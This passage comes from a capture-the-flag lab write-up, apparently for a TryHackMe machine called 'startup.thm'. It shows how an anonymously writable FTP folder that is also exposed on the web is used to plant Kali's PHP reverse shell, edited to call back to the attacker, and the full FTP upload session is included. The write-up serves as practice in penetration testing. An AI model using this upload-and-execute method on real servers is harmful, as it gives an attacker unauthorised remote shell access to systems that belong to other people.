 ```sh
2020/11/10 08:45:13 Finished
===============================================================
```

Gobuster shows me that there is a file-folder on the Web-Server. After checking the folder i know that this is the FTP-Folder. 


# Weaponization

After Enumeration the Web-Site, the FTP-Share i have figured out, how i can get access to the Web-Server. 

In the enuermation i found out, that the FTP-folder on the FTP-Share is writeaple:

```sh
drwxrwxrwx    2 65534    65534        4096 Nov 09 02:12 ftp [NSE: writeable]
```

We can upload a reverse shell to the share and execute it from the Browser. This is possible due that fact that the ftp-folder is also accessible from the Web-Browser.

I used the php-reverse-shell scirpt witch is located in kali: 

```sh
❯ locate php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php\
```

In the script i changed the IP-Address and the port whitch i use for the reverse-shell to call back to me. 


# Delivery

The next step is deliver the reverse-shell to the ftp-folder. Due that fact that anonymous login is available we can upload the shell via command line to the ftp-folder. 

```sh
ftp startup.thm
Connected to startup.thm.
220 (vsFTPd 3.0.3)
Name (startup.thm:fr3akazo1d): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5493 bytes sent in 0.00 secs (1.7520 MB/s)
ftp>
```
